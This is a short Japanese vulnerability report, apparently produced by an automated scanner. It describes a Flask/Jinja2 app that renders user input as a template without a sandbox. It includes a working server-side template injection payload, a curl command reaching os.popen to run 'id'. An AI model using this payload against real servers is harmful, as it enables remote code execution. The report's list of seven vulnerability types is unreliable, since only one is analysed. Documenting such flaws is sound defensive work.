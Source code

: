# Analysis Report

![高信頼度](https://img.shields.io/badge/信頼度-高-red) **信頼度スコア: 90**

## 脆弱性タイプ

- `RCE`
- `AFO`
- `SSRF`
- `LFI`
- `SQLI`
- `XSS`
- `IDOR`

## PAR Policy Analysis

## 詳細解析

アプリケーションはリクエストパラメータ「name」をそのままJinja2のTemplateコンストラクタに渡し、sandboxなしでテンプレートをレンダリングしています。これにより、攻撃者はテンプレートインジェクションを通じて任意のPythonコードを実行でき、リモートコード実行（RCE）が可能です。

## PoC（概念実証コード）

```text
以下のように悪意あるテンプレートを送信すると、サーバー上で『id』コマンドが実行され、その結果がレスポンスに含まれます。

curl -X POST http://localhost:5000/submit \
  -F "name={{().__class__.__mro__[1].__subclasses__()[396]().__init__.__globals__['os'].popen('id').read()}}"

※subclasses()のインデックスは環境により異なるため調整が必要です。
```

## 解析ノート

- request.form['name'] で未検証のユーザ入力を取得
- f-文字列で謝辞メッセージを作成（エスケープ処理なし）
- Template() に直接渡し、sandbox無効
- template.render() により任意テンプレート実行可能

